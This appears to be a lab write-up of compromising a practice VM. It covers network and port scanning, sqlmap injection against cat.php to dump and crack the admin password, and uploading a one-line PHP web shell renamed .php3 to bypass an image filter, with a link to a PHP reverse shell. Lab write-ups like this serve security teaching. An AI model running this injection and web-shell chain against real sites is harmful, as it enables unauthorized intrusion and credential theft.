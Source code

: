 # Report Labs / Flavio POGGIOLI

## Table of contents

  - [Report Labs / Flavio POGGIOLI](#report-labs--flavio-poggioli)
  - [Table of contents](#table-of-contents)

## VM n°80

Targets : Reconnaissance, SQLi, exploit

### 1. Find IP address of the machine

```bash
$ sudo netdiscover -r 10.0.2.0/24
```
Our target is 10.0.2.7.

![picture 0](../images/bc267a05816217fe9b235aee12329d24e270323656f60c62493a043ec341ac5b.png)  

### 2. List all open ports

We need to determine the open ports and the services running on them using nmap with some options (uniquly ports and secondly enabling default scripts, identifying service versions, and disregarding ping host discovery.).

```bash
$ sudo nmap -p- 10.0.2.7
$ sudo nmap -sC -sV -Pn 10.0.2.7
```

![picture 1](../images/607138fad172eadf3a73f784ef9cc3a676c7396de49dc670a7fe344a4e020a62.png)  

![picture 2](../images/c52eca9bd070e0535951de0033fd4697d84dd9fd1e515819d46c6754c8a6c353.png)  

Now we can see that theses ports are open (all TCP) :
- port 22 — OpenSSH 5.5p1 Debian 6+squeeze2 (protocol 2.0)
- port 80 - Apache httpd 2.2.16 ((Debian))

### 3. Find vulnerabilities

#### 3.1. Port 80 - HTTP

We can try to find vulnerabilities on the web server with dirb.

```bash
$ dirb http://10.0.2.7
```

![picture 3](../images/713a5a869f2cade655cf27fd58af3a883ce84c2acf608e70a1b9fa2edbb4e910.png)  

After opened the main page of the web server, we can see a secret blog, with some pages, pictures and tabs.

![picture 4](../images/d5099a854fc1bd8562f6604cb17c91ef46347c57ad334ee9b02f1297cb3e2bde.png)  

Admin page is protected by a password.

![picture 5](../images/b06b69579beb80a882996b60b8acd3fc07380d9e27597ec0d2d5bdc7cb8b7238.png)  


### 4. Exploit with sqlmap

Now that we have found a web server, we can try to exploit it with sqlmap (-u to state the vulnerable URL and --dbs to enumerate the database).

```bash
$ sqlmap -u http://10.0.2.7/ --dbs
```

![picture 6](../images/8576425f4d707040c1968867a5398bfa97e8626cdf43c8b942835b23dfbd21f7.png)  

I have failed to do the sqlmap because sqlmap need parameter(s) for testing in the provided data.
So, we need to choose one page with a parameter to test in the URL, so we can try to exploit cat.php and some id parameter.

```bash
$ sqlmap -u http://10.0.2.7/cat.php?id= --dbs
```
![picture 7](../images/20351d6f039bcd8fb0887154d92235511886624aa23ebc43a5637014acc1bacc.png)  

We can see that 2 databases are hosted, `information_schema` and `photoblog`.

Now, we can specify the database to enumerate tables.

```bash
sqlmap -u http://10.0.2.7/cat.php?id= --tables -D photoblog
```

![picture 8](../images/f2ee0d47628ce8221b66dea9a65555d6caed64a387a19ebdf3b9b26ae5b1082a.png)  


We can see that 3 tables are in database `photoblog` --> `users`, `categories` and `pictures`.

Now, we can specify the database and the table to enumerate and dump columns.

```bash
sqlmap -u http://10.0.2.7/cat.php?id= --columns -D photoblog -T users
```
![picture 9](../images/c6a72f691b8fcc3c43d810ce39fbbea5f6b56731b79d4fb8671054ee72f9a449.png) 

We can see that 3 columns are in table `users` --> `id`, `login` and `password`.

To dump the password, we can proceed with the same command and add `--dump` option.

```bash
sqlmap -u http://10.0.2.7/cat.php?id= --dump -D photoblog -T users
```
![picture 10](../images/3d053e5ef742b37342f8067a36aa96be17c20e607245936ff39777d1ade497b3.png)  

The program ask us if i want to crack the hash of the passwords founds, and after that, the password are cracked.

`admin:P4ssw0rd` (hash:8efe310f9ab3efeae8d410a8e0166eb2)

Now, we can try to connect to the admin page with the credentials found.

A new page is displayed, with a new tab, `Upload`.

![picture 11](../images/6470a6c90ade0cd237eb9d0323e8d839c053f48fe6f9fc6efc8177483281cba2.png)  

We can try to upload a file to get a reverse shell, but the file is rejected because the file is not an image.

I tried to put that in a file and upload it with the name `script.php3`.
```php
<?php
  system($_GET['cmd']);
?>
```
Now we can go to `10.0.2.7/admin/uploads` which is a directory listable, and we can see our file.
I click on it and i put a parameter `?cmd=whoami` and i wan see that our user is www-data.

![picture 0](../images/60bcd3b6359408132253728be3fdb92b687dbce32f6acce597c9958b94ab3ab3.png)  

We have now a reverse shell and access to our target.


[Github source of php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

